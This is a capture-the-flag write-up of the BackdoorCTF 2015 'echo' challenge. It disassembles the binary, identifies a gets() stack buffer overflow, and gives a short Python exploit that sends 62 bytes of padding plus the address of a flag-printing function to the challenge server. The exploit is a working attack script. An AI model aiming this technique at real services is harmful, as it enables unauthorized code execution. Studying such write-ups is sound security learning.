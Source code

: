 Title: echo
Author: doskop
Date: 2015-04-03 4:33
Tags: CTF


## Introduction

> Little Suzie started learning C. She created a simple program that echo's back whatever you input. Here is the binary file. The vampire came across this service on the internet. nc hack.bckdr.in 8002. Reports say he found a flag. See if you can get it.

Download the binary: [echo]({filename}/downloads/backdoorctf-2015/echo).

## Analysis

Let's have a quick look at the binary, shall we?

    $ readelf -hl echo|egrep "Type|GNU_STACK"
      Type:                              EXEC (Executable file)
      Type           Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flg Align
     GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RW  0x10
    $ readelf -s echo|egrep "FUNC.*GLOBAL.*DEFAULT"|grep -v UND
    
       45: 080486b0     2 FUNC    GLOBAL DEFAULT   13 __libc_csu_fini
       55: 080486b4     0 FUNC    GLOBAL DEFAULT   14 _fini
       62: 08048640    97 FUNC    GLOBAL DEFAULT   13 __libc_csu_init
       65: 08048480     0 FUNC    GLOBAL DEFAULT   13 _start
       68: 0804862b    18 FUNC    GLOBAL DEFAULT   13 main
       69: 0804857d   115 FUNC    GLOBAL DEFAULT   13 sample
       74: 080483b0     0 FUNC    GLOBAL DEFAULT   11 _init
       75: 080485f0    59 FUNC    GLOBAL DEFAULT   13 test

So, no ASLR for the main executable, non executable stack and 3 exported functions: main, sample and test. Let's take a look at the disassembly of those functions. The annotations in the output are mine.

    :::nasm
    $ pwny symbol-disasm echo main
    push ebp
    mov ebp,esp
    and esp,byte -0x10
    call dword 0x80485f0  ; test
    mov eax,0x0
    leave
    ret
    
    $ pwny symbol-disasm echo test
    push ebp
    mov ebp,esp
    sub esp,byte +0x58
    lea eax,[ebp-0x3a]
    mov [esp],eax
    call dword 0x80483f0  ; gets
    mov dword [esp],0x1
    call dword 0x8048420  ; sleep
    mov eax,[0x804a038]   ; stderr
    lea edx,[ebp-0x3a]
    mov [esp+0x8],edx
    mov dword [esp+0x4],0x80486db  ; "ECHO: %s\n"
    mov [esp],eax
    call dword 0x8048450  ; fprintf
    leave
    ret
    
    $ pwny symbol-disasm echo sample
    push ebp
    mov ebp,esp
    sub esp,0x88
    mov dword [esp+0x4],0x80486d0  ; "r"
    mov dword [esp],0x80486d2  ; "flag.txt"
    call dword 0x8048460  ; fopen
    mov [ebp-0xc],eax
    cmp dword [ebp-0xc],byte +0x0
    jnz 0x80485aa
    mov eax,0x1
    jmp short 0x80485ee
    jmp short 0x80485c0
    mov eax,[0x804a038]  ; stderr
    mov [esp+0x4],eax
    lea eax,[ebp-0x70]
    mov [esp],eax
    call dword 0x8048470  ; fputs
    mov eax,[ebp-0xc]
    mov [esp+0x8],eax
    mov dword [esp+0x4],0x64
    lea eax,[ebp-0x70]
    mov [esp],eax
    call dword 0x8048400  ; fgets
    test eax,eax
    jnz 0x80485ac
    mov eax,[ebp-0xc]
    mov [esp],eax
    call dword 0x8048410  ; fclose
    mov eax,0x0
    leave
    ret

## Exploitation

It seems little Suzie left us some helpful code that outputs the flag and a buffer overflow vulnerability. Little Suzie has a lot to learn. Let's write 0x3a (offset of read buffer in the stack) + 4 (saved ebp) bytes of garbage and the address of the sample function to the buffer.

    #!/usr/bin/env python
    from pwny import *
    
    binary = ELF('echo')
    target.assume(binary)
    
    #f = Flow.execute('./echo', redirect_stderr=True)
    f = Flow.connect_tcp('hack.bckdr.in', 8002)
    f.writeline('A' * 62 + P(binary.get_symbol('sample').value))
    f.read_eof(echo=True)

